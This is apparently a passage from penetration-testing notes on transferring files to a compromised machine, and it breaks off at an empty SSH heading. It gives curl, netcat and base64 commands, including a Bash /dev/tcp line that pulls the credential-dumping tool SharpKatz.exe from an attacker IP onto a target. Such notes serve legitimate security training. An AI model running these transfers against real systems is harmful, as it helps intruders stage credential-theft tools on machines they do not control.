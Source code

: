 `curl [URL] -o [FILE_NAME]` to download from the target

### Netcat

**Download on target**

1. Start netcat on the target

   ```bash
   nc -lvnp 8000 > [FILE]
   ```

   If the compromised machine is using Ncat, specify `--recv-only` to close the connection once the file transfer is finished.

2. On our machine, we upload the file on netcat

   ```bash
   nc [IP] [PORT] < [FILE]
   ```

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html). Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

1. Open listener on you machine

   ```bash
    sudo ncat -l -p 443 --send-only < SharpKatz.exe
   ```

2. On the target:

   ```bash
   cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
   ```

### B64

1. Encode the file

```bash
cat [FILE] |base64 -w 0;echo
```

2. Copy the string

3. Go on the remote host, decode

```bash
echo -n [STRING] | base64 -d > [FILE_NAME]
```

**Validate Transfer**

`file`: validates the format of a file

`md5sum` validates the hash of the filestomi

### SSH
